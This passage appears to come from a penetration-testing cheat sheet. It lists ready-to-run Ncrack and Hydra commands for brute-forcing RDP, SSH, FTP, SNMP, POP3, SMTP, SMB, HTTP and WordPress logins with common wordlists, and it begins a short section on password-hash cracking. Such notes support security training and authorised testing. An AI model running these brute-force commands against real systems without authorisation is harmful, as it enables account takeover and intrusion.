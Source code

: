   - Ncrack

    - ncrack (from the makers of nmap) can brute force RDP  
            `ncrack -vv --user offsec -P password-file.txt rdp://$ip`

  - Hydra

    - Hydra brute force against SNMP  

            `hydra -P password-file.txt -v $ip snmp`

    - Hydra FTP known user and rockyou password list  

            `hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp`

    - Hydra SSH using list of users and passwords  

            `hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh`

    - Hydra SSH using a known password and a username list  

            `hydra -v -V -u -L users.txt -p "<known password>" -t 1 -u $ip ssh`

    - Hydra SSH Against Known username on port 22

            `hydra $ip -s 22 ssh -l <user> -P big_wordlist.txt`

    - Hydra POP3 Brute Force  

            `hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V`

    - Hydra SMTP Brute Force  

            `hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V`

    - Hydra attack http get 401 login with a dictionary  

            `hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin`

    - Hydra attack Windows Remote Desktop with rockyou

            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip`

    - Hydra brute force SMB user with rockyou:

            `hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb`

    - Hydra brute force a Wordpress admin login ( wpscan will do it too )

            `hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'`

- Password Hash Attacks
    -------------------------------------------------------------------------------------------------------------------

  - Online Password Cracking  
        [*https://crackstation.net/*](https://crackstation.net/)
        [*http://finder.insidepro.com/*](http://finder.insidepro.com/)

  - Hashcat
    Needed to install new drivers to get my GPU Cracking to work on the Kali linux VM and I also had to use the --force parameter.
